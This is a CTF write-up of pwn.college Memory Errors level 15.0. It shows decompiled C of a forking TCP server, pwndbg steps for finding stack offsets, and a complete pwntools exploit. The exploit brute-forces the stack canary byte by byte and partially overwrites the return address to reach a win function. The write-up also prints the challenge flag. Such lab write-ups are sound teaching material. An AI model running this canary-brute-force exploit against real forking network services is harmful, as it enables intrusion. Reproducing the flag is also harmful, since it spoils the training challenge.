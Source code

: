 ```yaml
---
layout: post
title: (Memory Errors) level 15.0 
date: 2025-07-09 13:09:01 +0300
categories: pwn.college Memory-Errors
tags: pwn.college memory-errors partial-overwrite brute-force stack-canary buffer-overflow 
---
```


## Information 
- category: pwn

## Description
> Defeat a stack canary in a PIE binary by utilizing a network-style fork server in the target binary.

## Write-up
This code was reversed using **IDA**:
```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  int optval; // [rsp+24h] [rbp-101Ch] BYREF
  int fd; // [rsp+28h] [rbp-1018h]
  int v7; // [rsp+2Ch] [rbp-1014h]
  sockaddr addr; // [rsp+30h] [rbp-1010h] BYREF
  unsigned __int64 v9; // [rsp+1038h] [rbp-8h]

  v9 = __readfsqword(0x28u);
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stdout, 0LL, 2, 0LL);
  puts("###");
  printf("### Welcome to %s!\n", *argv);
  puts("###");
  putchar(10);
  puts("This challenge is listening for connections on TCP port 1337.\n");
  puts("The challenge supports unlimited sequential connections.\n");
  fd = socket(2, 1, 0);
  optval = 1;
  setsockopt(fd, 1, 2, &optval, 4u);
  addr.sa_family = 2;
  *(_DWORD *)&addr.sa_data[2] = 0;
  *(_WORD *)addr.sa_data = htons(0x539u);
  bind(fd, &addr, 0x10u);
  listen(fd, 1);
  while ( 1 )
  {
    v7 = accept(fd, 0LL, 0LL);
    if ( !fork() )
      break;
    close(v7);
    wait(0LL);
  }
  dup2(v7, 0);
  dup2(v7, 1);
  dup2(v7, 2);
  close(fd);
  close(v7);
  challenge((unsigned int)argc, argv, envp);
  puts("### Goodbye!");
  return 0;
}
```
**The binary uses ```htons``` to bind a socket, listening on port ```0x0539```, which is ```1337``` in decimal**.
You can interact with the service locally using:
```bash
nc 127.0.0.1 1337
```
Now we’ll set our **breakpoints** using ```pwndbg``` and run the challenge.
We’ll place a breakpoint at ```challenge +1645```, which corresponds to the call to ```read``` inside the challenge function:
```bash
pwndbg /challenge/babymem-level-15-0
...
pwndbg > b*challenge + 1654
```
This allows us to inspect the stack before and after the ```read``` call to confirm the buffer overflow.

```bash
pwndbg> p/x $rsi  
# $rsi points to the buffer we're writing into

pwndbg> stack  
# Inspect the stack layout
# Look for the canary (usually starts with 0x00******) and saved return address

pwndbg> dist $rsi <canary_address>
# Calculate offset from buffer to canary

pwndbg> i f
# Show the current frame info (where saved RIP is stored)

pwndbg> dist $rsi <saved_return_address>
# Calculate offset from buffer to saved RIP
```
> This is our method, but you can explore and solve it using your own strategy too.
{: .prompt-info}

## Exploit
```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./babymem-level-15-0_patched")

context.binary = exe


def conn():
    r = remote("127.0.0.1", 1337)

    return r

def send_payload(p, payload):

    p.sendline(f"{len(payload)}".encode())
    p.send(payload)


def brute_force_canary():
    canary = b"\x00"
    i = 0x00
    while len(canary) < 0x8:
        for i in range(0x00,0xff):
            with remote("127.0.0.1" , 1337) as p:
                send_payload(p, b"A"*56 + canary + bytes([i]) )
                res = p.recvall(timeout=4)
                if b"*** stack smashing detected ***" not in res:
                    canary+= bytes([i])
                    break

    log.success(f"Canary: {canary}")

    return canary
def jump_to_win(canary):
    i = 0x00
    while i < 0xff:
        p = conn()
        fixed = b"\x22"
        padding_to_canary = b"A"*56
        padding_to_ret = b"B"*8

        payload = padding_to_canary + canary + padding_to_ret + fixed + bytes([i])

        send_payload(p, payload)
        res = p.recvall()
        if b"pwn.college" in res:
            print(res.decode())
            break
        else:
            i += 0x1

def main():
    canary = brute_force_canary()

    jump_to_win(canary)


if __name__ == "__main__":
    main()
```

## Flag
> Flag: ```pwn.college{PiU_dHA8jccj_TYZgFn1iejPdTj.01NxMDL5cTNxgzW}```